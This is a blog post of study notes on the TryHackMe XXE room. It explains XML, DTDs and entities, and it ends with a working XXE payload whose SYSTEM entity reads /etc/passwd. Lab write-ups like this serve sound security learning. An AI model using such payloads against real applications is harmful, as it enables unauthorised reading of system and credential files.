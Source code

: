```yaml
---
title: 'TryHackMe: Complete Beginner (Supplements)'
date: 2021-12-09 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-12-09-tryhackme-complete-beginner-supplements.html
author: 100007
---
```


# TryHackMe: Complete Beginner (Supplements)

**author:** Nathan Acks  
**date:** 2021-12-09

# XXE

## Deploy the VM

I think I’ve basically done a different version of this room…

Anyways, two types of XML External Entity (XXE) attacks:

- IN-BAND attacks are where the attacker receives an immediate response.
- OUT-OF-BAND (“blind”) attacks are when there is no immediate response and instead the attacker must receive the data indirectly (such as through a request to a second server under the attacker’s control).

## eXtensible Markup Language

Some things to remember about XML documents:

- Start with the standard prolog: `<?xml version="1.0" encoding="UTF-8"?>`. This is not _technically_ compulsory, but some parsers will barf if it’s missing.
- Every XML document has one and _only_ one root element.
- XML is case sensitive.

## DTD

The Document Type Definition defines/validates an XML document. For example, the DTD defined as

```
<!DOCTYPE note [
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
```

validate the XML document

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>falcon</to>
<from>feast</from>
<heading>hacking</heading>
<body>XXE attack</body>
</note>
```

The root node is defined immediately after the DOCTYPE declaration, with each ELEMENT declaration taking the form `element_name (contained_data)`. `#PCDATA` stands for “printable character data.

The DTD can also define multiple ENTITY types - `&amp;` and similar.

```
<!DOCTYPE userInfo [
<!ENTITY name "feast">
]>
<userInfo>
<firstName>falcon</firstName>
<lastName>&name;</lastName>
</userInfo>
```

Conveniently, DTD can be defined _in line_, and not just by included files.

These last two features are what we will leverage to attack applications that accept XML inputs.

## XXE Payload

```
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
```

The SYSTEM directive allows us to include other files… Possibly quite sensitive ones, depending on the permissions of our webserver and how good the application’s input sanitization is.

